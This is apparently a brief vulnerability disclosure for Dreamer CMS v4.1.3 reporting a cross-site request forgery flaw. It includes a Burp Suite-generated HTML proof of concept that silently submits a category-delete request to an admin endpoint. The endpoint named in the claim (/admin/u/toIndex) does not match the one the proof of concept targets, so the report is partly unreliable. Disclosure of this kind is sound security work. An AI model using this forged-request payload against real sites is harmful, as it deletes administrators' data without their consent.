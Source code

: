 Target is https://github.com/iteachyou-wjn/dreamer_cms

version:4.1.3

Dreamer CMS v4.1.3 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/u/toIndex.

![1699360243454](https://raw.githubusercontent.com/CP1379767017/cms/dreamcms_vul/images/dreamer-del_article01.png)

create poc

![图片](https://raw.githubusercontent.com/CP1379767017/cms/dreamcms_vul/images/dreamer-del_article02.png)


```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:8888/admin/category/delete">
      <input type="hidden" name="id" value="1722496663941804032" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```
successed

![图片](https://raw.githubusercontent.com/CP1379767017/cms/dreamcms_vul/images/dreamer-del_article03.png)
